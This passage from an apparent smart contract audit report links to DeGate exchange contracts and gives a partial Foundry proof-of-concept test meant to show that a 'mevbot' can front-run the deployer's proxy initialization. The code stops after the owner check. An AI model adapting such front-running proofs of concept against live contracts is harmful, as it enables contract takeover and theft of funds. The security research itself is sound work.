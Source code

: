 https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/contracts/core/impl/DefaultDepositContract.sol#L54-L65

Deployment script:

https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/migrations/8_deploy_exchange_v3.js

# Proof of concept
## PoC
Please copy/paste the code below into a file in the test directory of a foundry project called ExchangeFrontrunTest.sol

Please run the test with a fork of the mainnet forge test --fork-url {YOU_RPC_PROVIDER} --match-test test_FrontrunDeployer -vv
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;
pragma abicoder v2;

import {Test, console} from "forge-std/Test.sol";
import "src/core/impl/ExchangeV3.sol";
import "src/core/impl/DefaultDepositContract.sol";
import "src/thirdparty/proxies/OwnedUpgradabilityProxy.sol";

contract ExchangeFrontrunTest is Test {
    // variable to hold implementation contract of ExchangeV3
    ExchangeV3 public exchange;

    // variable to hold implementation contract of DefaultDepositContract
    DefaultDepositContract public deposit;

    address deployer = makeAddr("deployer");
    address mevbot = makeAddr("mevbot");

    // variable to hold proxy contract of ExchangeV3
    OwnedUpgradabilityProxy proxy;
    // variable to hold proxy contract of DefaultDepositContract
    OwnedUpgradabilityProxy DepositProxy;


    function setUp() public {
        // deploy implementation and proxies as the correct deployer
        vm.startPrank(deployer);
        exchange = new ExchangeV3();
        deposit = new DefaultDepositContract();
        proxy = new OwnedUpgradabilityProxy();
        DepositProxy = new OwnedUpgradabilityProxy();
        proxy.upgradeTo(address(exchange));
        DepositProxy.upgradeTo(address(deposit));
        vm.stopPrank();
        
    }

    function test_FrontrunDeployer() public {
        //Just for information output the deployer and mevbot addresses
        console.log("[i] The address of the deployer is :",deployer);
        console.log("[i] The address of the mevbot is :",mevbot);
        // Retrieve the current owner of the ExchangeV3 proxy after the deployment
        (bool success,bytes memory callresp) = address(proxy).call(abi.encodeWithSignature("owner()"));
        address current = abi.decode(callresp,(address));
        console.log("[i] Owner of ExhangeV3 proxy directly after deployment :",current);
```